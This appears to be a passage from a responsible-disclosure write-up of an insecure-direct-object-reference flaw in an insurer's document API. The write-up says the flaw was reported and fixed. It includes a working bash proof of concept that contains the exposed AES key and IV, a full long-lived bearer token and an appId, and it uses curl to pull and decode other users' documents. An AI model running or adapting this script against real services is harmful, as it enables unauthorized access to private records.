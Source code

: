 ```bash title="sample_script.sh" linenums="1" hl_lines="7"
done
```

<details><summary>Sample response</summary></details>

### 3. GetDocumentByIdPost

This API accepted an encrypted document ID and returns the document. The encryption was done using AES-128-CBC with a static key and IV - exposed in the front-end code. The API was vulnerable to serial access as the document ID is an ever-increasing number, same as the vulnerability 1. The API response was a base64 encoded string which was decoded to get the document.

The bearer token, as visible on [jwt.io](https://jwt.io/), was valid for three years. Further, it was not tied to any user session and was used to access anyone's documents as long as the `SessionId` in the token was the same as the `appId` in headers (which is trivial).

Discovered and reported on 31 December 2024. Fixed on 19 February 2025.

```bash title="sample_script.sh" linenums="1" hl_lines="20"
#!/bin/bash
# Hexadecimal key exposed in the front-end code.
KEY="3539613231367a34394b336235384434"
# Hexadecimal IV exposed in the front-end code.
IV="756336394a4e353733683766366d6b36"

encrypt() {
  echo $(echo -n "$1" | openssl enc -e -aes-128-cbc -base64 -A -K "$KEY" -iv "$IV" -nosalt)
}

for opp_ids in "24194_800210_MergedDocument.pdf" "24194_800211_MergedDocument.pdf" ; do

  # The payload is the encrypted yet serial document ID.
  payload="{\"id\":\"$(encrypt "$opp_ids")\"}"

  # The appId header is a static value, same as the claim "SessionId" in the JWT token.
  # The Authorization header is a static value.
  curl -v -X POST 'https://digiapi.licindia.in/api/DMS/GetDocumentByIdPost' \
    -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJVc2VySWQiOiI3M2M4MzJhNi03YzU1LTQzN2UtYjkyNy1hMzYwYTdhMDIxNzkiLCJFbWFpbCI6IkxJQ0RlbW9BZ2VudEBnbWFpbC5jb20iLCJPcmdJZCI6IjExMiIsIlBhcnRuZXJJZCI6IjAiLCJSb2xlIjoiTElDRGVtb0FnZW50IiwiTmFtZSI6IkxJQ0RlbW9BZ2VudCIsIlVzZXJOYW1lIjoiTElDRGVtb0FnZW50QGdtYWlsLmNvbSIsIlByb2R1Y3RUeXBlIjoiTWljYSIsIlNlcnZlclR5cGUiOiIxIiwiU2Vzc2lvbklkIjoiNjQyYjJhZDYtNjE3Yi00MjRkLThlOGItMWIzZTRjMWQwYWI2IiwiVGltZXpvbmVNaW4iOiIzMzAiLCJleHAiOjE4MjM4Njc0OTEsImlzcyI6IkludWJlIiwiYXVkIjoiSW51YmVNSUNBIn0.LvWId_MA3nHN9J-xw_ZDxfVHMPIa-sNbAQUn_w5LRxo' \
    -H 'appId: 642b2ad6-617b-424d-8e8b-1b3e4c1d0ab6' \
    -d "${payload}" -o "getdocumentbyidpost_${opp_ids}.txt"

  # The response is a JSON object with a "data" field containing the base64 string
  awk -F'"' '/"data":/ {print $(4)}' "getdocumentbyidpost_${opp_ids}.txt" >"getdocumentbyidpost_${opp_ids}"
  # Extract the base64 encoded document from the response and decode it.
  base64 --decode "getdocumentbyidpost_${opp_ids}" >"getdocumentbyidpost_dec_${opp_ids}"

done
```
